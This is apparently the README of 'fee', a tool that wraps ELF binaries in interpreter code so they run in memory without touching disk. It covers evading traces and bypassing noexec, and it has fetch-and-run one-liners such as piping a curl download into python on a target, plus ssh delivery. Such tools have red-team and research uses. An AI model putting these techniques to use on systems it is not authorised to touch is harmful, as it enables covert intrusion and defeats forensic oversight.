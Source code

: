 ## Execute ELF files on a machine without dropping an ELF

[![Code style: black](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)

### Description

This Python script generates interpreted code which creates the supplied ELF as a file in memory and executes it (without tmpfs). This makes it possible to execute binaries without leaving traces on the disk.

The technique used for this is explained [here](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html).

With default options for each interpreter, running binaries using `fee` does not write to disk whatsoever. This can be verified using tools such as `strace`.

`fee` also completely ignores and bypasses `noexec` mount flags, even if they were set on `/proc`.


### Target requirements

 * kernel: 3.17 or later (for `memfd_create` support)
 * An interpreter. Any of these:
   * Python 2
   * Python 3
   * Perl
   * Ruby


### Installation

Install this on your host machine using [pipx](https://github.com/pypa/pipx):
```console
$ pipx install fee
```

... or regular pip:
```console
$ pip install --user fee
```

You may also clone this repository and run the script directly.

### Usage

Basic usage: supply the path to the binary you wish to drop:

```console
$ fee /path/to/binary > output.py
```

You can then pipe this into Python on the target:

```console
$ curl my.example.site/output.py | python
```

Alternatively, you may generate Perl or Ruby code instead with the `--lang` flag (`-l`):
```console
$ fee /path/to/binary -l pl | perl
```

```console
$ fee /path/to/binary -l rb | ruby
```

If you want to pipe over ssh, use the `--with-command` flag (`-c`) to wrap the output in `python -c` (or `perl -e`, `ruby -e` accordingly):

```console
$ fee -c /path/to/binary | ssh user@target
```

When piping over ssh, you sometimes want to wrap the long line which holds the base64-encoded version of the binary, as some shells do not like super long input strings. You can accomplish this with the `--wrap` flag (`-w`):
```console
$ fee -c /path/to/binary -w 64 | ssh user@target
```

If you want to customise the arguments, use the `--argv` flag (`-a`):

```console
$ fee -a "killall sshd" ./busybox > output.py
```

**If you don't wish to include the binary in the generated output**, you can instruct `fee` to generate a script which accepts the ELF from stdin at runtime. For this, use `-` for the filename. You can combine all of these options for clever one-liners:
```console
$ ssh user@target "$(fee -c -a "echo hi from stdin" -t "libc" -)" < ./busybox

hi from stdin
```

__NB!__ By default, the script parses the encoded ELF's header to determine the target architecture. This is required to use the correct syscall number when calling `memfd_create`. If this fails, you can use the `--target-architecture` (`-t`) flag to explicitly generate a syscall number. Alternatively, you can use the `libc` target to resolve the symbol automatically at runtime, although this only works when generating Python code.
For more exotic platforms, you should specify the syscall number manually. You need to search for `memfd_create` in your target's architecture's syscall table. This is located in various places in the Linux kernel sources. Just Googling `[architecture] syscall table` is perhaps the easiest. You can then specify the syscall number using the `--syscall` flag (`-s`).

Full help text:
```
usage: fee.py [-h] [-t ARCH | -s NUM] [-a ARGV] [-l LANG] [-c] [-p PATH] [-w CHARS] [-z LEVEL]
              path

Print code to stdout to execute an ELF without dropping files.

positional arguments:
  path                  path to the ELF file (use '-' to read from stdin at runtime)

optional arguments:
  -h, --help            show this help message and exit
  -t ARCH, --target-architecture ARCH
                        target platform for resolving memfd_create (default: detect from ELF)
  -s NUM, --syscall NUM
                        syscall number for memfd_create for the target platform
  -a ARGV, --argv ARGV  space-separated arguments (including argv[0]) supplied to execle (default:
                        path to file as argv[0])
  -l LANG, --language LANG
                        language for the generated code (default: python)
  -c, --with-command    wrap the generated code in a call to an interpreter, for piping directly
                        into ssh
  -p PATH, --interpreter-path PATH
                        path to interpreter on target if '-c' is used, otherwise a sane default is
                        used
  -w CHARS, --wrap CHARS
                        when base64-encoding the elf, how many characters to wrap to a newline
                        (default: 0)
  -z LEVEL, --compression-level LEVEL
                        zlib compression level, 0-9 (default: 9)
```
